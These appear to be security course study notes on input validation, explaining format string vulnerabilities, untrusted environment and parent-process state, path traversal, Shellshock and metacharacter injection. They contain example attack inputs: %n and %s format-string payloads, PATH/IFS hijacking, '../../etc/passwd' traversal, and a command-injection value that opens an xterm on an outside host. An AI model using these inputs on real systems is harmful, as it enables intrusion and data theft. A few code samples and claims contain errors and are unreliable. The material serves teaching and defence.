# Input Validation

**Trust:**

- The accepted dependende of a component on a set of properties (functional or non-functional) of another component or system.
- **Trust is not absolute:** the degree of trust placed by A on B is expressed by the set of properties that A expects B to satisfy. 

**Trustworthiness:** The measure in which a component or system meets a set of properties (functional and/or non-functional) that are expected by another component or system.

A component **can be trusted without being trustworthy**, just because A trusts B does not mean that B is trustworthy. If A trusts B, then A **should accept** that a violation in those properties of B might compromise A's correct operation.

**Attack Surface:** set of inputs of a program.

- sockets, web services, inter-process communication.
- APIs.
- Files used by the application.
- User interface (e.g., graphic user interface, command line).
- Operating system (e.g., environment variables).

# Format String Vulnerabilities

Appear in C in functions of the families: `printf()`, `error()`, `sprintf()`, etc.

Each conversion specification (i.e., something like `%d`) is **introduced by the character** `%`. and **ends with a conversion specifier** (e.g., `d`, `s`, `f`, etc.).



## x86-64 Architecture

**Sintaxe:**

```c
printf("format string", arg1, arg2, ...); 
```

**Example:**

```c
printf("val = %d - %s\n", i, s);
```

The format string `"val = %d - %s\n"` contains two conversion specifications: `%d` and `%s`.

When the function is called, the arguments `i` and `s` are **put on the registers**, and then, when there is no more space, **in the stack before the retrun address** placed by the call to `printf()`. 



### Printing Contents of Memory

```c
main(int argc, char **argv) {
    printf(argv[1]);
}
```





This code prints 8 bytes (16 hex digits) from the register `rsi`because `printf()` expects that the **long integer** to be printed (due to `%016lx`) to be in the first register (after `rdi`).

When `argv[1] = “%016lx%016lx%016lx%016lx%016lx_%016lx”`

The first five `%016lx` prints 8bytes **from the registers** `rsi`, `rdx`, `rcx`, `r8d`, and `r9d`. After that, the last `%016lx` prints 8 bytes **from the stack**, because `printf()` expects the last argument to be stored in the stack.



```c
main(int argc, char **argv) {
    char buf[1024];
    gets(buf);
    printf(buf);
}
```

Being `input = "%s"` `printf()` takes and dereferences **from the register `rsi`** an address of the place where the string is suposed to be stored. If the address is valid, the program crashes. Otherwise, it will print that area of memory until the first null byte is found.





### Praticalities

If the input is given in the command line, **it is difficult to provide the two** `\x00\x00` in the address at the end of the input string, because the shell will probably interpret those zeros as an metacharacter, indicating the termination of the input. Therefore, those zeros should be omitted, and expected that the memory is initialized with zeros.

In order to provide an address in the command line you cannot write something like `"\x84\x48\x55\x55\x55\x55\x00\x00"` because each character is stored in a separate byte (there will be a byte for `\`, then for `x`, then for `8`, `4` ...).

So in order to provide the address, you should write something like `printf "\x84\x48\x55\x55\x55\x55"` where the shell executes a `printf` command and concatenates the output to the arguments of the program being executed.

## x86-32 Architecture

Appears in C in functions of the families: `printf()`, `error()`, `syslog()`, etc.

**Example:**

```c
printf( “val = %d - %s\n”, i, s);
```

The format string `"val = %d - %s\n"` contains two conversion specifications: `%d` and `%s`.

When the function is called, the arguments `i` and `s` are **pushed into the stack** before the return address placed by the call to `printf()`.



### Printing Contents of Memory

```c
main(int argc, char **argv) {
    printf(argv[1]);
}
```

Being `argv[1] = “%08x”` the program prints 4 bytes (8 hex digits) **from the stack**, because `printf()` expects that the **number** to be printed (due to `%08x`) to be in the stack.



When `argv[1] = “%s` `printf()` takes and dereferences **from the stack** an address of the place where the string is suposed to be stored. Depending on the part of the memory tha is pointed, it will print the area until the first null byte is found.



```c
main(int argc, char **argv) {
    char buf[1024];
    strncpy(buf, argv1[1], 1023);
    buf[1023] = ‘\0’;
    printf(buf);
}
```

If `argv[1] = “\x70\xF5\xF7\x77%08x%08x…..%08x%s”` `printf()` will print `chars \x70\xF5\xF7\x77` + bytes from the stack + content of address `0x77F7F570` (reverse order because of little endian). It will print as characters until the first null byte is found.



## Writing in Memory

The character `%n` puts a number of bytes printed so far in an integer instead of only reading from memory, it **allows to write in memory**.

**Example 1:**
```c
printf("AAAAA%n", &i) 
```

This code will write the value `5` in the variable `i`.

**Example 2:**
```c
s = "AAAA\x04\xF0\xFD\x7F%08x….%08x%n"
```

This will write the number of bytes printed in mem. position `0x7FFDF004`, obviously, we might be able to insert several addresses in `s`.

The character combination `%07u` is minimum the number of bytes printed, this allows to control **minumum field width** the number to be written in memory. The value can be 07 or any other number.

## Summary

```c
printf(format_string, parameters…)
```

The stack contains:

- %08x -> the number to print -> read.
- %s -> the address of the string to print -> read.
- %n -> the address where the value is stored -> write.

# Different Froms of Input

## Input

### Command line arguments

An atttacker can pass melformed program arguments to any program parameter, including the program name itself (big name -> BO). Even if the shell impose limits -> the attacker does not need to call the program from a shell.

**testProgname**

```c 
#include …
int main (int argc, char **argv){
    printf("argv[0] = %s\n", argv[0]);
}
```

```shell
$ ./testProgname
    argv[0] = ./testProgname
```

Now, let's usae the parent program (`testPrognameFather`) to `execve` this program in such a way that the progname outputed is different.

**testPrognameFather**

```c
#include …
int main (int argc, char **argv){
    char *args[2];
    args[0] = "./XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXBufferOverflow";
    args[1] = NULL;
    execve("./testProgname", args, NULL);
}
```

```shell
$ ./testPrognameFather
    argv[0] = ./XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXBufferOverflow
```

### Passed by parent process

Don't trust **things left by the parent process** like:

- **Open file descriptors**.
- **Umask**.
- **Signal handlers**.

**testUmask**

```c
#include …
int main (int argc, char **argv){
    char buf[1024]; FILE *fp;
    snprintf(buf, sizeof(buf), "ficheiro_%s", argv[1]);
    if ((fp = fopen(buf, "w+")) == NULL)
        printf("ERROR: fopen %s\n", buf);
    fclose(fp);
}
```

```shell
$ ./testUmask 1
    ficheiro_1 is created
    permissions: rw-rw-r--
```

Now, let's use the parent program (`testUmaskFather`) to `execve` this program in such a way that the umask gives more permissions.

**testUmaskFather**

```c
#include …
int main (int argc, char **argv){
    char *args[3]; FILE *fp;
    args[0] = "./testUmask";
    args[1] = "1111";
    args[2] = NULL;
    umask(0);
    execve("./testUmask", args, NULL);
}
```

```shell
$ ./testUmaskFather
    ficheiro_1111 is created
```

### Environment variables

Oracle 8.0.5 and 8.1.5: “The **dbsnmp** file executes the chown and chgrp commands on several files. It references these files without fully-qualifying the path. This allows an attacker to set the PATH environment variable to run the chown and chgrp commands on the attacker's
version of the files. This vulnerability can result in an attacker
**gaining root access** if the dbsnmp is setuid root.”

`system(command)`, `popen(command, type)` call the shell with the program's environment variables.

Imagine that a setuid program does `system("ls");`.

**Attack 1:** if an attacker sets **PATH** to '.' and `cp evil_binary ls`('.' in the beginning of the path is allways bad idea).

**Attack 2:** if you reset **PATH** but indlude '.' in it `cp evil_binary l` `export IFS="s"` works even if '.' is not in the beginning of PATH only 1 program name without path.

**Bad Solution:** `system("IFS=' \n\t'; PATH='/usr/bin:/bin'; export IFS PATH; ls");`

The attacker can do: `export PATH=.;export IFS='IP \n\t'` so I and P becomes spaces and the program will setup env vars FS and ATH, instead of IFS and PATH.

**Better solution:**

```c
extern char **environ;
int i = -1; char *b, *p;
static char *default_env [] = {
    "PATH=/bin:/usr/bin",
    "IFS= \t\n",
    0 };

while(environ[++i] != 0) ; // go to the last var
while(i--) { environ[i] = 0; } // clean
while(default_env[i]) { putenv( default_env[i++] ); }
```

### Libraries

Similar problem in Windows (old versions, before WinXP)
Current directory is searched for DLLs **before** the system directories.
When you open a document in a directory, if there is a DLL needed in there, it is used.

**Solutions:**

- Directory does not give execute permission (does not let programs of DLLs there be executed)
- Runtime validations to ensure that the DLL is the one intended
- Provide full path for the DLL
- WinXP and later: **system directories are searched first**

## Path Traversal

Imagine a CGI with Perl script that got a username and printed some statistics by running: 

```perl
system("cat", "/var/stats/$username");
```

**Path traversal attack:** The attacker gives the following username:
    `../../etc/passwd`

## Command Injection

**Shellshock** bash shell attack:
Bash unintentionally executed commands when they were stored in specially crafted environment variables. A malicious function whould be inserted into the environment `export function='() { :;}; echo Ready for the world?'`. When a bash shell script was run (e.g., due to a call to some shell script in a web application), **the environment variable list is scanned** for values that correspond to functions (i.e., starts with (). **These functions are then executed on the fly**, but affected versions of bash did **not verify** that the fragment was merely a function definition. Therefore, the screen whould print `Ready for the world?` even though no function was called.

Old Berkeley "mail" program:
Executed a command when ie saw `~!`in some contexts (e.g., in the body of a message).

# Metadata and Metacharacters

Data often has associated some metadata (or metainformation) that describes the data itself. Examples of metadata:

- Strings are kept as characters + info about where it terminates.
- Pictures or videos are stored with data about size, etc.

Metadata can be represented:

- **In-band**, e.g., strings in C (a special character is used to indicate the end of the string).
- **Out-of-band**, e.g., strings in Java (the number of characters is metadata stored separately from the characters themselves).

**In-band metadata** for **textual data** is called **metacharacters**. Ex: \0 (end of string), \ or / (directory separator), . (Internet domain separator), @, :, \n, \t.

## Metacharacters vulnerabilities

This type of vulnerability occurs because the program trusts input to contain **only** characters (no metacharacters) but, the attacker introduces input **with** metacharacters.

This appear when constructing strings with:

- Filenames
- Registry paths (Windows)
- Email addresses
- SQL statements
- Add user data to a file

**Solution:** **Sanitize input from metacharacters**, using **whitelisting** and if not possible, **blacklisting**.

## Common Metacharacters Attacks

1. **Embedded delimiters:** The application receives more than one kind of information separated by a delimiter.
2. **Null characters injection:** The `\0` character is inerpreted in different ways by distinct components of the system.
3. **Separator injection:** The information may contain separators to devide it in parts.

### Embedded delimiters

Example of vulnerable code to update password:

```Perl
$new_password = $query->param('password');
open(IFH, "<passwords.txt"); # IFH input file handler
open(OFH, ">passwords.txt.tmp"); # OFH output file handler
while(<IFH>) {
    ($user, $pass) = split /:/ ;
    if ($user ne $session_username)
        print OFH "$user:$pass\n";
    else
        print OFH "$user:$new_password\n";
}
```

### NULL characters injection

Depending on the context, sometimes `\0` is considered to indicate end of string and in others it doesn't.

Vulnerability in some CGIs:

- Perl CGI that opens a text file and shows it: 
  - First tests if it has .txt extension
  - If user provides as input: passwd\0.txt
  - Perl does not consider the first \0 to terminate the string so it
  passes the test…
  - but the OS considers the string to be passwd
- With C/C++ not so simple, but `fgets()` reads characters from a file until `\n` or EOF and does not stop at `\0`.

### Separator injection

**Command separators** to do **command injection**

```c
int send_mail(char *user) {
    char buf[1024]; FILE *fp;
    snprintf(buf, sizeof(buf), "/usr/bin/sendmail -s
    \"hi\" %s", user);
    fp = popen(buf, "w");
    if (fp==NULL) return -1;
    … write mail…
```

The user should be "user@host.com", but can be changed to "user@host.com; xterm --display 1.2.3.4:0" in order to send an xterm to the attacker's X server.

**Directory separators** can cause truncation allowing a **path traversal** attack.

```c
char buf[64];
snprintf(buf, sizeof(buf), "%s.txt", username);
fd = open(buf, O_WRONLY);
```

**Vulnerability Details:**

- If `sizeof(username) > 60` characters, the buffer fills and the `.txt` suffix is **not fully appended**.
- The code becomes vulnerable to path traversal: an attacker can supply `../../../etc/passwd` (or other variations) as the username.
- The `.txt` truncation means the actual file opened is outside the intended directory.

**Path representation variability:**

Multiple representations of the same canonical path exist and cause confusion:

- Relative paths: `../../../etc/passwd`, `./etc/../etc/passwd`
- Symbolic links: may point to different locations
- Different spellings: uppercase/lowercase on case-insensitive filesystems
- Encoding tricks: URL encoding, double encoding, Unicode normalization
